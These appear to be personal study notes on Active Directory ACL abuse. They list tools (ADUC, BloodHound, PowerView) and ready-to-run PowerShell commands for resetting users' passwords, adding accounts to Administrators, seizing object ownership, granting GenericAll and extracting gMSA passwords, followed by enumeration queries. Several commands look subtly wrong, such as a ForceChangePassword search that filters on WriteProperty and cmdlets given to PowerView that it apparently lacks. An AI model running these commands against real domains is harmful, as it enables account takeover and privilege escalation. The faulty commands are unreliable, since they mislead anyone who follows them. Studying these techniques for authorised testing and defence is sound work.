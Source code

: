## Active Directory Users and Computers (ADUC)

ADUC is a graphical tool used to view and manage ACLs within Active Directory. While it does not involve command-line instructions, it is essential for visualizing permissions.

## BloodHound

BloodHound is a powerful graphical tool used for analyzing AD relationships and identifying potential attack paths, including ACL abuse. It utilizes graph theory and ingestors to collect data from Active Directory, mapping privilege escalation opportunities.

## PowerView (PowerShell)

PowerView is a PowerShell framework designed for enumerating and exploiting Active Directory. Below are key actions that can be performed using PowerView cmdlets:

- Enumerating Access Control Entries (ACEs).
- Identifying abusable permissions such as:
    - `ForceChangePassword`
    - `GenericWrite`
    - `AddSelf`
    - `GenericAll`
    - `WriteOwner`
    - `WriteDACL`
    - `AllExtendedRights`
- Identifying extended rights, such as:
    - `Unexpire-Password`
    - `Reanimate-Tombstones`
- Enumerating Group Managed Service Account (gMSA) permissions.
![[Pasted image 20250312104643.png]]
## Key PowerShell Cmdlets for ACL Abuse

### Changing a User's Password

If the `ForceChangePassword` permission is granted, an attacker can reset a user's password:

```
Set-DomainUserPassword -Identity "username" -NewPassword (ConvertTo-SecureString "NewP@ssword123" -AsPlainText -Force)
```

### Adding a User to a Group

If an attacker has `Add Members` or `AddSelf` permission, they can add a user to a privileged group:

```
Add-DomainGroupMember -Identity "Administrators" -Members "username"
```

### Modifying Domain Objects

If `GenericWrite` permission is granted, an attacker can modify attributes of domain objects:

```
Set-DomainObject -Identity "CN=User,DC=domain,DC=com" -Set @{'description'='Compromised'}
```

### Changing Object Ownership

If `WriteOwner` permission is available, an attacker can assign ownership to themselves:

```
Set-DomainObjectOwner -Identity "CN=User,DC=domain,DC=com" -Owner "Attacker"
```

### Modifying Object DACLs

If `WriteDACL` permission is available, an attacker can modify permissions:

```
Add-DomainObjectACL -TargetIdentity "CN=Admin,DC=domain,DC=com" -PrincipalIdentity "Attacker" -Rights "GenericAll"
```

### Extracting gMSA Passwords

Attackers with necessary permissions can extract Group Managed Service Account (gMSA) passwords:

```
Get-GMSAPassword -Identity "gmsa_account"
```

## Advanced PowerView Enumeration Commands

### Enumerating ACLs on a User

```
Get-ObjectAcl -Identity "username"
```

### Finding Users with `ForceChangePassword` Permissions

```
Get-ObjectAcl -Identity "domain" -SearchBase "DC=domain,DC=com" -SearchScope Subtree | 
?{$_.ActiveDirectoryRights -contains "WriteProperty" -and $_.IdentityReference -match "user"} |
select IdentityReference, ActiveDirectoryRights
```

### Identifying Groups a User Can Add Themselves To

```
Find-InterestingDomainAcl -Identity "username" -Rights "WriteProperty" -Properties "member"
```

### Finding Users with `GenericAll` Permissions

```
Get-ObjectAcl -Identity "domain" -SearchBase "DC=domain,DC=com" -SearchScope Subtree | 
?{$_.ActiveDirectoryRights -contains "GenericAll" -and $_.IdentityReference -match "user"} |
select IdentityReference, ActiveDirectoryRights
```
